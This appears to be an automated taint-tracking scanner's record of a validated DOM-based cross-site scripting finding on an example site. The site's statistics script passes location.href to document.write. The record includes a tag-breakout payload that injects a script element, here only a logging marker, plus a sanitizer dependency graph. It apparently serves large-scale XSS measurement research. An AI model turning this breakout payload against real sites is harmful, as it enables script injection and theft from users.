 // Finding: b5230b52-1d8d-4f7d-aadf-0de8bd10c1a6
// Finding.url: https://www.example427.com/article/189721##"></iframe></style></script></object></embed></textarea><script>taintfoxLog('aac4c83b1c37463dbdf51c162c80b297')</script><!--/*
// Finding.parentloc: https://www.example427.com/article/189721##"></iframe></style></script></object></embed></textarea><script>taintfoxLog('aac4c83b1c37463dbdf51c162c80b297')</script><!--/*
// Finding.domain: www.example427.com
// Finding.base_domain: example427.com
// Finding.source: location.href
// Finding.sink: document.write
// Sanitizer.score: 1
// Sanitizer.name: statistics.tools.betaURI
// Sanitizer.location: https://static.example427.com/js/statistics.js - statistics.execute:225:180
// Finding.begin: 177
// Finding.end: 341
// Finding.original_uuid: f8f8e4b9-2da6-4433-8dec-1117127169b2
// Finding.TwentyFiveMillionFlowsId: -258267417
// Finding.script: https://static.example427.com/js/statistics.js
// Finding.line: 227
// Exploit.uuid: aac4c83b-1c37-463d-bdf5-1c162c80b297
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: src
// Exploit.quote_type: "
// Exploit.tag: img
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><script>
// Exploit.break_in: </script><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><script>taintfoxLog(1)</script><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 36
// Exploit.replace_begin_url: 36
// Exploit.replace_end_url: 36
// Exploit.replace_begin_param: 213
// Exploit.replace_end_param: 213
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 1031606210
// DepGraph.sanitizer_hash: 1031606210

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="preg_replace"];
n2 [shape=box, label="RegExp: /[&]/"];
n3 [shape=box, label="Lit: @"];
n4 [shape=box, label="Var: x"];
n5 [shape=box, label="Var: x"];
n6 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n5 -> n1;
n6 -> n5;
}
